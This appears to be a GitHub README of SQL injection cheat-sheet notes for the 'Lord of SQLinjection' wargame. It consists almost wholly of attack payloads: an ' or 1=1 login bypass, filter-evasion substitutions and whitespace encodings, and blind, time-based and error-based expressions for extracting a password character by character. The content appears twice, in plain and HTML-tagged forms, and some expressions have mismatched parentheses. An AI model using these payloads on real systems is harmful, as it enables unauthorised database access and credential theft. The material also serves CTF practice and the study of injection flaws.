 # Lord-of-SQLinjection
#web_hacking #SQLinjection

?pw=' or 1=1 --%20  
?pw like "a%"  
?pw like "a_b_c"  
?id in ("admin")  
or -> ||  
and -> %26%26  
admin -> 0x61646d696e  
0x -> 0b  

<h4>bypass ' '</h4>
%09 (\t)  
%0a (\n)  
%0d (\r)  
%0b  
%0c  

<h4>Blind SQL injection</h4>
<ul>length(pw)<10  
<ul>ord(substr(pw,2,1)) > 5  
<ul>substr(pw,2,1) > char(5)  
substring(pw,2,1) > char(5)  
substr(pw from 2 for 1) > char(5)  
ord(right(left(pw,2,1)))>5  

<h4>Time-based SQL injection</h4>
if((ord(substr(pw,2,1)>5), (sleep(2)), 1)  
id='admin' and length(pw)=10 and sleep(2)  
pw=(sleep(3*(length(flag)=10)))  
# Lord-of-SQLinjection
#web_hacking #SQLinjection

?pw=' or 1=1 --%20  
?pw like "a%"  
?pw like "a_b_c"  
?id in ("admin")  
or -> ||  
and -> %26%26  
admin -> 0x61646d696e  
0x -> 0b  

<h4>bypass ' '</h4>
<ul>%09 (\t)</ul>
<ul>%0a (\n)</ul>
<ul>%0d (\r)</ul>
<ul>%0b</ul>
<ul>%0c</ul>

<h4>Blind SQL injection</h4>
<ul>length(pw)<10</ul>
<ul>ord(substr(pw,2,1)) > 5</ul>
<ul>substr(pw,2,1) > char(5)</ul>
<ul>substring(pw,2,1) > char(5)</ul>
<ul>substr(pw from 2 for 1) > char(5)</ul> 
<ul>ord(right(left(pw,2,1)))>5</ul>

<h4>Time-based SQL injection</h4>
<ul>if((ord(substr(pw,2,1)>5), (sleep(2)), 1)</ul>
<ul>id='admin' and length(pw)=10 and sleep(2)</ul>
<ul>pw=(sleep(3*(length(flag)=10)))</ul>

<h4>Error-based SQL injection</h4>
<ul>if(ord(substr(pw,2,1)>5, (select 1 union select 2), 1)</ul>
<ul>order by (select 1 union select length(pw)<10)</ul>

<li>limit 0,1</li>
<li>and>or</li>
<li>if there is # -> use Line Feed!</li>
<li>if you want to make the query error, pw=1=(select 1 union select 2)</li>
<li>ereg -> %00, case sensitive</li>

<h4>Error-based SQL injection</h4>
if(ord(substr(pw,2,1)>5, (select 1 union select 2), 1)  
order by (select 1 union select length(pw)<10)  

<li>limit 0,1</li>
<li>and>or</li>
<li>if there is # -> use Line Feed!</li>
<li>if you want to make the query error, pw=1=(select 1 union select 2)</li>
<li>ereg -> %00, case sensitive</li>
